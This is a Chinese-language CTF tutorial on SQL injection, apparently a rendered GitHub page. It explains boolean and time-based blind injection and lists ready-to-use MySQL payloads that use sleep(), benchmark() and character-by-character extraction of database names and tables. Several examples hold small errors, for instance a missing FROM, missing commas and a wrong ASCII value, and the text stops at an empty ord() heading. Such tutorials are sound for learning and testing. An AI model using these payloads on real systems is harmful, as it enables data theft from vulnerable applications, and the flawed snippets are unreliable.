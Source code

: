 # **CTF中的SQL注入**
## **何为SQL注入？**
SQL注入是一种注入攻击，由于用户的输入也是SQL执行语句的一部分，所以攻击者可以利用有注入漏洞的功能点，注入自己定义的语句，改变SQL语句结构，从而影响执行逻辑，让数据库执行任意的指令，查询数据库中任何自己需要的数据，甚至可以直接获取数据库服务器的系统权限。
# **1 盲注**
所谓盲注的本质就是猜解，就是通过“感觉”来判断当前字段是否存在注入，那何为感觉？答案是：差异（感觉到运行时间的差异和页面返回结果的差异）。也就是说我们通过构造一条语句来注入到SQL布尔表达式中，使得布尔表达式执行结果的真假直接影响整条语句的执行使得系统呈现不同的反应，布尔盲注就是页面返回内容有差异，时间盲注就是执行时间有差异。
## **1.1 Bool盲注**
常用于猜解数据的逻辑表达式：
```sql
and 0、and 1、or 1、1 & 1、id = 0 | 1、id = 0 | 0、id = 1^0、id = 0||1
ELT(N ,str1 ,str2 ,str3 ,…)
函数使用说明：若 N = 1 ，则返回值为 str1 ，若 N = 2 ，则返回值为 str2 ，以此类推。 若 N 小于 1 或大于参数的数目，则返回值为 NULL
1'+(select case when 1=1 then 0 else 1 end) and '1'='1
if(((expression))<'a',sleep(1),0)
```
## **1.2 基于时间的盲注**
基于时间的盲注的一般思路是延迟注入，说白了就是将判断条件结合延迟函数注入进入，然后根据语句执行时间的长短来确定判断语句返回的 TRUE 还是 FALSE，从而去猜解一些未知的字段。
常用函数：sleep() 和 benchmark()函数
```sql
id = 1-sleep(2)
id = 1-benchmark(10000000,md5(1))
通过条件语句中结合延时函数达到猜解目标字段值
select * from user where id =1-if(mid(version(),1,1)<'a',sleep(1),0)
insert 和 update 的基于时间盲注示例
update users set username = '0'|if((substr(user(),1,1) regexp 0x5e5b6d2d7a5d), sleep(5), 1) where id=15;
insert into users values (16,'dds','0'| if((substr(user(),1,1) regexp 0x5e5b6d2d7a5d), sleep(5), 1));
```
由于是盲注，我们看不到我们的数据回显，我们只能根据返回去猜解，那么在对数据库一无所知的情况下我们只能一位一位地猜解，这里就会用到一些截断函数以及一些转换函数。
比较常见的是
```sql
mid() substr() locate() position() substring() left() regexp like rlike length() char_length() ord() ascii() char() hex()

/******************************left()函数:*******************************/
left(database(),1)>'s'
left(database(),1)='s'
Explain:database()显示数据库名称，left(a,b)从左侧截取a的前b位

/****************************substr()函数:*******************************/
substr((select table_name information_schema.tables where tables_schema=database()limit 0,1),1,1)='a'
substr(a,b,c)从b位置开始，截取字符串a的c长度。

/****************************mid()函数:*******************************/
mid((select user limit 0,1)0,1)='s'
mid(a,b,c)从位置b开始，截取a字符串的第c位
注意substr()与mid()函数,第一个是截取x个长度,第二个是截取第x位.

/****************************ascii()函数:*******************************/
ascii('a')=65
ascii(substr(select * from user limit 0,1)1,1)=62
ascii(substr((select database()),1,1))=98
Ascii()将某个字符转换为ascii值,结合substr一起使用可以来判断括号条件内首字母对应的ascii码大小,然后判断首字母是什么

/****************************ord()函数:*******************************/
```